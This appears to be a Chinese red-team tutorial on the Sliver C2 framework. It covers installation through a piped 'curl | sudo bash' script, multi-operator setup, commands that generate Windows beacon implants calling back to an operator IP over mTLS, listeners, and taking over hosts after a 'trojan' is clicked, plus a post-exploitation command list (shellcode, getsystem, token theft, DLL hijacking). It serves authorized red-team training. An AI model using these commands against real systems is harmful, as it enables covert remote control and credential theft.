 ```yaml
---
title: Sliver（一）：Sliver基础
tags: Red Team
---
```


# 介绍

Sliver是一个开源的C2项目，用Golang开发。Sliver的操作与Metasploit的操作类似，但它支持多用户协同。与Cobalt Strike相比，它支持Macos、Windows、Linux客户端以及implant的生成，但它不具备GUI界面，官方提供了一个GUI项目，但是目前已经废弃。项目地址：https://github.com/BishopFox/sliver。

总体来说作为CS的开源替代品是非常好的选择，且二开相对简单，适合作为个人或团队的定制C2框架。

# 安装

在Linux服务器中执行 `curl https://sliver.sh/install|sudo bash` 即可完成安装，安装后主要会生成sliver-server、sliver-client和sliver三个可执行程序。

sliver-server在root目录下，是服务端程序，如果要实现多用户操作，必须启动此程序，后续新建用户等操作都需要在此程序下操作`sudo /root/sliver-server` 。

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled.png)

用户端可以直接去github上下载对应架构的客户端https://github.com/BishopFox/sliver/releases。

sliver在终端模式下是具备自动补全功能的，因此可以多使用Tab。

# 多用户模式

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled%201.png)

在Server端中新建用户：`new-operator --name client -l 198.19.249.24 -p 20000` 

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled%202.png)

输入`multiplayer -l 20000` 启动指定端口的多用户模式。

将配置文件复制到client机器的~/.sliver-client/configs目录中，再启动sliver-client。

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled%203.png)

# Beacons & Sessions

Sliver在远程控制上提供了Beacon模式和Session模式。

Session模式下，Sliver会和受控主机建立持续的连接，执行的命令会立刻返回结果，方便但容易被发现。

Beacon模式下，Sliver与Cobalt Strike一样，有休眠时间，执行的命令会排队，等待受控主机一定时间后执行并返回结果，相对较为隐蔽。

## implant生成

Sliver目前总共支持五种协议：mtls、http/s、dns、wireguard。

生成命令：

```jsx
generate beacon --arch amd64 --os windows --mtls 198.19.249.24:3306 --save ./test.exe 
```

如果想生成的是Session模式，去掉beacon即可。

生成时需要记住很多参数，为了方便，Sliver提供了Profiles来简化这个过程：

```jsx
profiles new --mtls 198.19.249.24:3306 --os windows --arch amd64 --format exe windows_default
```

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled%204.png)

需要使用时执行`profiles generate --save ./test.exe  windows_default` 。

输出`implants`可以看到所有生成的implant：

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled%205.png)

## 监听

开启监听只需要使用对应implant的协议名 -l 端口号即可

```jsx
mtls -l 3306
```

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled%206.png)

使用jobs可以看到当前开启的监听任务：

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled%207.png)

job1是sliver多用户模式下开启的grpc端口，用于多用户协同操作，job2就是刚刚开启的监听端口。

## 上线

在受控主机上点击木马后，server端和client端都会接到消息：

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled%208.png)

输入`beacons`可以看到上线的beacon的信息：

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled%209.png)

`use`命令可以进入该beacon，进入后可以执行`interactive` 转换出一个session，由于需要等待休眠时间，所以需要等待一会儿。

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled%2010.png)

转换完成后再执行`sessions` 可以看到相关信息：

![Untitled](Sliver%EF%BC%88%E4%B8%80%EF%BC%89%EF%BC%9ASliver%E5%9F%BA%E7%A1%80%20035632621e9543d9a5675a7a68a49d15/Untitled%2011.png)

`use`命令可以进入该session。

## 命令列表

```jsx
Sliver:
=======
  cat                查看文件
  cd                 切换目录
  chmod              修改文件或文件夹权限
  chown              修改文件或文件夹所属
  chtimes            修改文件的创建时间和修改时间
  close              不关闭进程的情况下关闭session
  download           下载文件
  execute            执行程序
  execute-shellcode  sliver进程里执行shellcode
  extensions         管理扩展
  getgid             获取 GID
  getpid             获取 session pid
  getuid             获取 session UID
  ifconfig           查看网络配置
  info               查看session信息
  interactive        beacon生成session
  kill               Kill session
  ls                 列出当前目录列表
  memfiles           列出当前 memfiles（unknown）
  mkdir              创建目录
  msf                在当前进程下执行 MSF payload
  msf-inject         往一个进程中注入 MSF payload
  mv                 文件移动或重命名
  netstat            输出网络连接信息
  ping               不使用ICMP，给木马发送回环消息
  pivots             给存活的session列出pivots（unknown）
  portfwd            TCP端口转发
  procdump           Dump进程内存
  ps                 列出进程列表
  pwd                打印当前目录
  reconfig           beacon/session恢复配置
  rename             给beacon/session重命名
  rm                 删除文件或目录
  rportfwd           反向端口转发
  screenshot         屏幕截图
  shell              开启shell
  shikata-ga-nai     二进制shellcode编码器
  sideload           在远程进程中加载和执行共享对象(共享库/DLL)
  socks5             socks5代理
  ssh                在远程主机上执行ssh命令
  terminate          在远程主机上关闭一个进程
  upload             上传文件
  whoami             获取当前用户
```

### Windows特定命令

```jsx
Sliver - Windows:
=================
  backdoor          使用shellcode感染一个远程的文件
  dllhijack         DLL劫持
  execute-assembly  在子进程中加载和执行.NET程序集
  getprivs          获取当前权限
  getsystem         获取一个NT AUTHORITY\SYSTEM的shell
  impersonate       模拟已登录的用户
  make-token        使用指定的凭据创建新的登录会话
  migrate           进程迁移
  psexec            在远程目标上启动一个sliver服务
  registry          操作windows注册表
  rev2self          Revert to self: lose stolen Windows token
  runas             在指定用户的上下文中运行一个新进程
  spawndll          在远程进程中加载和执行反射DLL
```